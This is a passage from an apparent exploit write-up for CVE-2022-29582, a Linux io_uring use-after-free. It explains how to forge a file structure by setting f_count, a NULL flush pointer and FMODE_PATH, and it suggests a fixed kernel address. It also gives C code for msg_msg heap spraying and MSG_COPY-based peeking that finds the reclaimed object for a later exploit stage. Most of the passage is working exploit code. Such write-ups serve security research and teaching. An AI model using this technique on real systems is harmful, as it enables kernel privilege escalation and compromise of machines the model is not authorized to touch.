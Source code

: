 ```C
1293	}
1294	fput(filp);
1295	return retval;
1296 }
```

Only need that f_count > 0, the f_op->flush contains a NULL (flush is at f_op+0x70) and f_mode to be 0x4000.

```C
#define FMODE_PATH		((__force fmode_t)0x4000)
```

What address can be f_op? In [the same](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/) write up, it advices the NULL_MEM 0xfffffe0000002000 address.

Because we don´t want another UAF yet, we will put the f_count = 2, only to locate the chunk and perform another spray afterward. Like so, we will use msgrcv (with the flag MSG_COPY, it will do a copy and the message isn´t deleted) and locate it. If the message is found, it will be deleted, making it available for the next target object in the exploit.

```C
int peek_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {

	if (msgrcv(msqid, msgp, msgsz, msgtyp, MSG_COPY | IPC_NOWAIT | MSG_NOERROR) < 0) {
		perror("[-] msgrcv");
		printf("errno: %d\n", errno);
		exit(0);
	}
	
	return 0;
}

int read_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {

	if (msgrcv(msqid, msgp, msgsz, msgtyp, IPC_NOWAIT | MSG_NOERROR) < 0) {
		perror("[-] msgrcv");
		exit(0);
	}
	
	return 0;
}
```

```C
char *buf = NULL;
uint32_t uaf = 0;
for (i = 0; i < NUM_MSQIDS; i++) {
	pin_cpu(i % ncpus);
	/* Read de messages of first spray for finding the vulnerable object */
	memset(&message_r, 0, sizeof(message_r));
	if (peek_msg(msqid[i], &message_r, sizeof(message_r.text), 0) < 0) {
		perror("[-] peek_msg");
		exit(0);
	}

	buf = ((char *) &message_r) + PAGE_SIZE - MSG_HEAD_SIZE;
	/* Found message, deleted */
	if (buf[56] != 2) {
		uaf = i;
		printf("[+] Found object at %d\n", uaf);
		memset(&message_r, 0, sizeof(message_r));
		if (read_msg(msqid[uaf], &message_r, sizeof(message_r.text), MTYPE_FIRST) < 0) {
			perror("[-] read_msg");
			exit(0);
		}
		break;
```